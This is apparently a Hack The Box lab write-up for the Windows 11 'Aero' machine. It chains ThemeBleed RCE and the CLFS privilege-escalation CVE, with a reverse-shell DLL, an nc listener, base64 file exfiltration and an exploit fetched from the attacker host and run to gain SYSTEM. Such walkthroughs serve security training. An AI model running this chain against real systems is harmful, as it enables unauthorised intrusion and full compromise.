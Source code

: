 🛩️ HTB Aero — Windows 11 | RCE + Privilege Escalation | ThemeBleed + CLFS Exploit

Machine Info:

    Difficulty: Medium

    Platform: Windows

    CVEs: CVE-2023–38146, CVE-2023–28252

🧩 Initial Recon

We begin with an aggressive Nmap scan:

nmap -sVC -p- --min-rate 1000 10.10.11.237

Only port 80 (HTTP) is open, running IIS/10.0 with the X-Powered-By: ARR/3.0 header, indicating that Application Request Routing is enabled (used for load balancing). Navigating to /upload, we find that the server only accepts files with extensions .theme or .themepack.

We successfully upload a dummy aero.theme file, confirming server-side handling of theme packages.
🔥 ThemeBleed RCE (CVE-2023–38146)

ThemeBleed is a Windows 11 vulnerability that allows Remote Code Execution via specially crafted .theme files pointing to attacker-controlled SMB shares.

The race condition arises during theme verification:

    The .theme file references a .msstyles file.

    During signature check, Windows closes the DLL after verifying, then reopens it.

    In that gap, an attacker can replace the file with a malicious DLL.

🧪 Proof of Concept Setup

We clone the ThemeBleed PoC:

git clone https://github.com/gabe-k/themebleed

It uses 3 stages:

    stage_1: Triggers version check.

    stage_2: Valid .msstyles to pass signature check.

    stage_3: Malicious DLL that gets executed.

⚙️ Creating a Malicious DLL

Using Visual Studio:

    Create a DLL project.

    Export a VerifyThemeVersion() function that spawns a reverse shell.

int VerifyThemeVersion(void)
{
    rev_shell();
    return 0;
}

The reverse shell connects back to our listener on port 1234. After compiling in Release x64, replace stage_3 in the ThemeBleed repo with our DLL payload.

copy .\x64\Release\payload.dll .\themebleed\data\stage_3

🌐 Exploit Delivery

Generate the theme:

.\ThemeBleed.exe make_theme 10.10.14.150 aero.theme

If the ThemeBleed server fails to start due to existing SMB listeners, stop the Server service and reboot.

Stop-Service -Name Server

Once the service is stopped and the system rebooted, run the PoC server:

.\ThemeBleed.exe server

Upload the crafted aero.theme file and listen using nc -lnvp 1234.

Once triggered, we get a shell as sam.emerson.
🔍 Post Exploitation & Enumeration

We enumerate the user and discover a PowerShell script watchdog.ps1 monitoring for .theme file uploads.

Inside Documents, we find a PDF named CVE-2023-28252_Summary.pdf.

Exfiltration using PowerShell:

[convert]::ToBase64String((Get-Content -path "CVE-2023-28252_Summary.pdf" -Encoding byte))

Decoded locally:

[System.IO.File]::WriteAllBytes("C:\Users\Public\decoded.pdf", [System.Convert]::FromBase64String("<base64>"))

⬆️ Privilege Escalation (CVE-2023-28252)

The PDF gives insight into another recent Windows vulnerability — CLFS EoP (Common Log File System).

We use the Fortra PoC to craft a payload. The default exploit executes notepad.exe; we modify it to spawn a reverse shell.

Important Fix (Visual Studio):
To avoid compilation issues, go to:

Project Properties → Configuration Properties → Advanced → Character Set → Use Multi-Byte Character Set

After building the exploit in Release x64, serve it via a Python HTTP server:

python3 -m http.server 80

On the target, download and execute it:

Invoke-WebRequest -Uri http://10.10.14.150/clfs_eop.exe -OutFile clfs_eop.exe
.\clfs_eop.exe

A new connection is received—this time as NT AUTHORITY\SYSTEM.
🏁 Summary

    Initial Foothold: Exploited ThemeBleed via crafted .theme file + SMB hosting.

    Lateral Movement: Reverse shell as sam.emerson.

    Privilege Escalation: Used CLFS EoP exploit to elevate to SYSTEM.
